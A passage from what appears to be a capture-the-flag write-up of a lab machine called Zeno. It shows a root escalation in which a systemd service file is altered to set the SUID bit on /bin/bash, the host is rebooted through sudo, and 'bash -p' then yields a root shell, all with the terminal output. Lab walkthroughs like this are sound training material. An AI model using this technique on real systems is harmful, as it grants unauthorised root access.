 Then with a listener going, we should be able to execute `sudo /usr/sbin/reboot`. This will kill our shell, but we will catch a new one in our listener as root.

But for some reason a shell never came back. I'm wondering if we may be dealing with some outbound firewall rules? 

Lets try something else. Lets set the SUID bit on `/bin/bash`, reboot and then try running `/bin/bash -p` for a root shell.


```
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/chmod 4755 /bin/bash                    


[Install]
WantedBy=multi-user.target
```

Updating and then rebooting:
```
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ ssh edward@10.10.231.208
edward@10.10.231.208's password: 
Last login: Fri Jun 14 17:29:54 2024 from ip-10-6-72-91.eu-west-1.compute.internal
[edward@zeno ~]$ vi /etc/systemd/system/zeno-monitoring.service
[edward@zeno ~]$ sudo /usr/sbin/reboot
Connection to 10.10.231.208 closed by remote host.
Connection to 10.10.231.208 closed.
```

Then after a minute or two:

```
┌──(ryan㉿kali)-[~/THM/Zeno]
└─$ ssh edward@10.10.231.208
edward@10.10.231.208's password: 
Last login: Fri Jun 14 17:37:19 2024 from ip-10-6-72-91.eu-west-1.compute.internal
-bash-4.2$ whoami
edward
-bash-4.2$ /bin/bash -p
bash-4.2# whoami
root
```

Nice, that worked, lets grab the final flag:

![zeno_root_flag.png](../assets/zeno_assets/zeno_root_flag.png)
